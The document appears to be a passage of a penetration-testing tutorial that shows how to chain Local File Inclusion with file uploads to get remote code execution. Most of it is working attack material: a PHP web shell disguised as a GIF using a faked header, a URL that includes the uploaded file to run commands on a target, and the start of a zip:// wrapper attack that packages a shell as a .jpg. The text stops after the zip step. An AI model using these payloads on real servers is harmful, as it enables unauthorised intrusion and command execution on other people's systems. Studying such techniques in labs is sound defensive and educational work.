 #### **Exploiting LFI and Web File Upload Attacks**

Local File Inclusion (LFI) vulnerabilities can be leveraged to achieve Remote Code Execution (RCE) when combined with web file upload functionalities. Let's explore how we can craft malicious uploads and use them to exploit LFI vulnerabilities effectively.

#### **Image Upload Exploitation**

Web applications often allow users to upload images. Exploiting an LFI vulnerability in such a scenario involves uploading a malicious file (e.g., shell.gif containing PHP code) and then including it via the vulnerable file inclusion mechanism.

#### **Crafting a Malicious Image**

**Create the Malicious Image (shell.gif)**:

Shell

```php
echo '**GIF8**<?php system($_GET["cmd"]); ?>' > shell.gif
```

Here, GIF8 represents the GIF file header, ensuring the file starts with valid image magic bytes.

**Upload the Image**: After uploading shell.gif to the server via the application's upload functionality, assuming the upload directory is accessible (e.g., /profile\_images/), we can include it in our LFI exploit.

#### **Exploiting LFI with Uploaded Image**

Assuming the path to the uploaded image is /profile\_images/shell.gif:

Shell

```php
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

Replace \<SERVER\_IP> and \<PORT> with the appropriate values for your target.

#### **Zip Upload Exploitation**

Some applications may allow uploading zip archives, which can be abused using the zip:// wrapper to execute PHP code stored within the zip file.

#### **Creating and Exploiting a Zip Archive**

**Create a PHP Web Shell (shell.php)**:

Shell

```php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Zip the PHP File**:

Shell

```php
zip shell.jpg shell.php
```
